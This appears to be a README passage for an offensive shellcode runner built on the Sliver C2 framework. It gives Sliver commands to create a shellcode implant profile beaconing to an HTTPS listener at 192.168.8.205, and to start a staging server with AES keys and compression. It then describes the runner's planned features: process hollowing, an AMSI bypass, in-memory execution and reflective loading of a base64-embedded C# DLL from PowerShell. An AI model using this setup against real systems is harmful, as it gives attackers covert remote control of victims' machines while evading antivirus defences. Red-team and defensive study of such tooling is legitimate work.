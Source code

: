 The next steps involve setting up the necessary profile, listener, and stage-listener. It is noted that the IP addresses and paths to assets, such as certificates, need to be adjusted to fit the specific environment.

1. Create a reusable profile for the scenario
```text
sliver > profiles new -b https://192.168.8.205:443 --skip-symbols --format shellcode --arch amd64 monkeybox
```
2. Start the listener with the same port as specified in the profile and the certificate and key generated from metasploit
```text
https -L 192.168.8.205 -l 443 -c /tmp/certs/crt.crt -k /tmp/certs/key.key
```
3. Start the stageing server on port 8443 with the HTTPS protocol and the generated certificates. Additional, the the compression algorithm in addition to the AES Encryption Keys has to be passed to the command.
```text
sliver > stage-listener --url https://192.168.8.205:8443 --profile monkeybox -c ~/Code/certs/crt.crt -k ~/Code/certs/key.key -C deflate9 --aes-encrypt-key D(G+KbPeShVmYq3t6v9y$B&E)H@McQfT --aes-encrypt-iv 8y/B?E(G+KbPeShV
```
4. To confirm that our listeners are running , run the jobs command
```text
sliver > jobs
```

![Setup Sliver lister and stager](./doc/img/sliver001.png)

## Shellcode Runner

The features intended for inclusion in this shellcode runner are support for various staging scenarios offered by the Sliver C2 (such as raw shellcode, compression, AES encryption, and combinations thereof), process hollowing, AMSI bypass, in-memory execution to avoid touching the disk whenever possible, and flexibility in passing arguments without hard-coded parameters, allowing arguments to be passed on the fly. Different approaches could be taken to achieve these goals. The chosen approach involves writing a C# DLL assembly containing all the necessary methods, embedding it in the PowerShell script as a base64 string, decoding the assembly and loading it into the process using reflection, and then specifying the arguments and executing the methods.
